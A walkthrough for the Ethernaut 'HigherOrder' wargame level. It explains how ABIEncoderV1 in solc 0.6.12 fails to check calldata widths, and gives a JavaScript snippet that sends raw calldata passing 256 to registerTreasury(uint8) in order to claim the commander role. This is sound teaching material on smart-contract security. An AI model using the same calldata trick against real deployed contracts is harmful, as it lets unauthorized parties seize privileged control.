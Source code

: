[Level 30. HigherOrder](https://ethernaut.openzeppelin.com/level/30)

## In A Nutshell

> Before `solc` version `0.8.0`, `ABIEncoderV1` was used and it wouldn't revert when calldata was inconsistent with the parameter types.

## Concept

1. How to encode function call into calldata on our own.
2. Difference between `ABIEncoderV1` and `ABIEncoderV2`.

## Level Target

1. Become the `commander` of the `HigherOrder`.

## Breakdown & Analysis

1. The `solc` version used in this level is `0.6.12`, which means `ABIEncoderV1` is applied. As a result, it won't check for inconsistencies between calldata and parameter types.
2. We can use a low-level call to trigger `registerTreasury(uint8)` and pass a value larger than 255.
3. The calldata passed to `call()` will be the function selector of `registerTreasury(uint8)` and a 32-byte parameter: `0x211c85ab` + `0x0000000000000000000000000000000000000000000000000000000000000100`.

## Detailed Steps

```js
const from = <your wallet address>;
const to = contract.address;
// 211c85ab -> `registerTreasury(uint8)`'s selector
// 000...100 -> parameter 256
const calldata = "0x211c85ab0000000000000000000000000000000000000000000000000000000000000100";

await ethereum.request({
    method: "eth_sendTransaction",
    params: [{
        from: from,
        to: to,
        data: calldata
    }]
})

await contract.treasury().then(v => v.toString()) // check if treasury is set to 256
await contract.claimLeadership();
```
